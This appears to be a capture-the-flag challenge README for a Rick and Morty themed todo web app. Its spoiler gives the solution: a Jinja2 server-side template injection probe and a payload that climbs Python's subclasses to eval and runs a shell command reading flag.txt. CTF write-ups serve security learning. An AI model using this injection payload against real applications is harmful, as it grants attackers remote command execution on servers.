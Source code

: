 # Morty's Cleanup List

**Category**: Web

**Author**: s1kk1s

## Description
Morty was using the portal gun to fix the mess Rick created through his adventures. When Rick find out he got so mad that he is trying to hack on Morty's phone through his todo application! Can you help him retrive hte flag?

<details>
<summary>Reveal Spoiler</summary>

SSTI on Post request `http://127.0.0.1:5000/postTodo?todo=hack-morty&type={{{7*7}}}`

```
{%% for c in [].__class__.__base__.__subclasses__() %%}
{%% if c.__name__ == 'catch_warnings' %%}
  {%% for b in c.__init__.__globals__.values() %%}
  {%% if b.__class__ == {}.__class__ %%}
    {%% if 'eval' in b.keys() %%}
      {{{{ b['eval']('__import__("os").popen("cat flag.txt").read()') }}}}
    {%% endif %%}
  {%% endif %%}
  {%% endfor %%}
{%% endif %%}
{%% endfor %%}
```

</details>

